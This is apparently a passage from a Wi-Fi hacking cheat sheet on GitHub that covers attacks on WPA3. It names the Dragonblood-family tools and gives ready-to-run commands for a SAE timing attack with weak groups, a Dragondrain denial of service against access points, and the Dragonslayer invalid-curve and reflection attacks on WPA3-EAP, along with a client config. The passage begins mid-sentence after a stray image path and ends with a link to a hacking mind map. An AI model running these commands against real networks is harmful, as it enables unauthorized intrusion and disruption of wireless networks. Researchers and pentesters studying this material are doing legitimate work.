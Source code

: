 --> Not working if weak security groups are not supported by the device.  

**Defense**: 

#### WPA3-SAE timing or cache password paritioning
- https://github.com/vanhoefm/dragonforce

#### Timing attack using weak group
Timing attacks against the SAE handshake if MODP group 22, 23, or 24 is used. Note that most WPA3 implementations by default do not enable these groups.

```
./dragontime -d wlan0 -c 1 -a 11:22:33:44:55:66 -g 27 -i 250 -t 750 -o measurements.txt
```

#### Denial of Service against WPA3-SAE
Test to which extend an Access Point is vulnerable to denial-of-service attacks against WPA3's SAE handshake. The Dragondrain tool forges Commit messages to cause a high CPU usage on the target.  
- https://github.com/vanhoefm/dragondrain-and-time 

```
./dragondrain -d wlan0 -a 01:02:03:04:05:06
```

#### WPA3-EAP - Invalid curve attack
- https://github.com/vanhoefm/dragonslayer

dragonslayer/client.conf
```
network={
	ssid="WPA3Corpo"
	identity="jdoe"

	key_mgmt=WPA-EAP
	eap=PWD
	password="unknown password"
}
```

 ```
 sudo ./dragonslayer-client.sh -i wlp2s0 -a 1
 ```

 #### WPA3-EAP - Reflection attack
 - https://github.com/vanhoefm/dragonslayer

```
sudo ./dragonslayer-client.sh -i wlp2s0 -a 0
```

# Wi-Fi Hacking Mind Map

- [Link to the map](https://raw.githubusercontent.com/koutto/pi-pwnbox-rogueap/main/mindmap/WiFi-Hacking-MindMap-v1.png)
<img src="./images/wifi_mindmap.png" width="700"/>
